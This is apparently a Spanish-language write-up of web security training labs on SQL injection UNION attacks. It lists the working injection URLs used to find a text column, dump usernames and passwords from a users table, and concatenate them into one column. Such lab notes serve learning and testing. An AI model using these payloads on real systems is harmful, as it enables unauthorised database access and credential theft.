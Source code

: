 ### SQL injection UNION attack, finding a column containing text

Para resolver el laboratorio, realice un ataque UNION de inyección SQL que devuelva una fila adicional que contenga el valor proporcionado. Esta técnica le ayuda a determinar qué columnas son compatibles con los datos STRING.

```sql
https://acd61f651f7e15dc80036c14001e006f.web-security-academy.net/filter?category='+UNION+SELECT+'a',NULL,NULL--  

https://acd61f651f7e15dc80036c14001e006f.web-security-academy.net/filter?category='+UNION+SELECT+NULL,'a',NULL--  

https://acd61f651f7e15dc80036c14001e006f.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL,'a'--  
```

### SQL injection UNION attack, retrieving data from other tables

Para resolver el laboratorio, realice un ataque UNION de inyección SQL que recupere todos los nombres de `usuario` y `contraseñas`, y use la información para iniciar sesión como `administrator` usuario.

```sql
https://ac6f1f0a1f362c3b80b31ac100280000.web-security-academy.net/filter?category='+UNION+SELECT+'a',NULL--

https://ac6f1f0a1f362c3b80b31ac100280000.web-security-academy.net/filter?category='+UNION+SELECT+'a','a'--

https://ac6f1f0a1f362c3b80b31ac100280000.web-security-academy.net/filter?category='+UNION+SELECT+username,password+from+users--
```

### SQL injection UNION attack, retrieving multiple values in a single column

Mostramos usuario y contraseña en una sola columna usando las concatenaciones

```sql

# forma1

https://acde1f681f2dc6a0801bac4400c7000e.web-security-academy.net/filter?category='+UNION+SELECT+NULL,concat(username,':',password)+from+users--

# forma2

https://acde1f681f2dc6a0801bac4400c7000e.web-security-academy.net/filter?category='+UNION+SELECT+NULL,username||'~'||password+from+users--
```
